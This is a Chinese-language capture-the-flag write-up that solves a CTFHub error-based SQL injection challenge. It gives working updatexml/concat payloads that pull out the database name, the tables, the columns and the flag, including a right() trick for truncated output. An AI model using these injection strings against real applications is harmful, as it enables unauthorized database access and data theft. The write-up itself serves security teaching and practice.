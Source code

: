 # SQL报错注入

> 例题链接：[CTFHUB报错注入](https://www.ctfhub.com/#/skilltree)

我将以一道例题来描述报错注入的解题方法，链接戳上面

**开始做题**

<img src="../../../statics\img\CTF\16.png" style="zoom:80%;" />

首先按要求输入一个1试一下，发现有回显，而且查询语句都看到了，可以知道这是整数型的注入，因此我们就不需要考虑引号的处理

**报错注入**

输入以下语句查询数据库

```
1 and updatexml(1, concat(0x7e, (select database()), 0x7e), 1)
```

这里解释一下，`updatexml`包含三个参数，其中第二个参数如果包含特殊字符的话，将会触发SQL语法错误，但SQL语句还是会执行，因此我们在第二个参数的查询两边拼接上`0x7e`，也就是`~`，构造错误，骗出服务器的信息

<img src="../../../statics\img\CTF\17.png" style="zoom:80%;" />

查询表

```
1 and updatexml(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema=database()), 0x7e), 1)
```

<img src="../../../statics\img\CTF\18.png" style="zoom:80%;" />

查字段

```
1 and updatexml(1, concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_name='flag'), 0x7e), 1)
```

<img src="../../../statics\img\CTF\19.png" style="zoom:80%;" />

查内容咯

```
1 and updatexml(1, concat(0x7e, (select flag from flag), 0x7e), 1)
```

<img src="../../../statics\img\CTF\20.png" style="zoom:80%;" />

细心的你会发现，我们在两端注入了`~`但是右边的消失了，说明这个flag没有显示全，可不能随便提交，所以我们查看下右边

```
1 and updatexml(1, concat(0x7e, (select right(flag, 25) from flag), 0x7e), 1)
```

<img src="../../../statics\img\CTF\21.png" style="zoom:80%;" />

ok，拼接一下就可以了